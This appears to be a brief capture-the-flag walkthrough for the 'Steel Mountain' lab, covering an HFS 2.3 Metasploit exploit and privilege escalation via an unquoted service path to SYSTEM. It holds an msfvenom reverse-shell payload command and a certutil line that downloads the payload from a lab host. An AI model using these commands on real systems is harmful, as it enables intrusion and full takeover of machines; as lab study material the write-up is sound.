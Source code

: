# Steel Mountain

- run an nmap scan
- find out the web ports (80,8080)
- you will find bill harper user
- on 8080, HttpWebServer 2.3 app will be running and it is a HFS app which will be vulnerable, you can exploit it with metasploit
- just search the exploit modules with `search -type exploit HFS` or `searchsploit -s HttpWebServer 2.3`
- You will get a shell
- Invoke powershell in metasploit with `load powershell` and `powershell_shell` commands
- upload `https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1` & run it
- followed by `Invoke-AllChecks` command and this will reveal services which have unquoted-service-path vulns
- then generate payload with msfvenom - `msfvenom -p windows/shell_reverse_tcp LHOSTS=<attacker-host> LPORT=<attacker-port> -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
- once you upload the payload into the path where the service has this vulnerability and invoke the `net stop;net start` commands you will get a reverse shell with the user SYSTEM`

- from CMD.exe you can run the following command to access a web-server `certutil -urlcache -f http://10.18.112.115/Advanced.exe Advanced.exe`



## References
- https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/
- https://infosecwriteups.com/tryhackme-writeup-steel-mountain-d052141f8901
- https://www.exploit-db.com/exploits/39161
- https://www.mandiant.com/resources/shikata-ga-nai-encoder-still-going-strong
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
- 
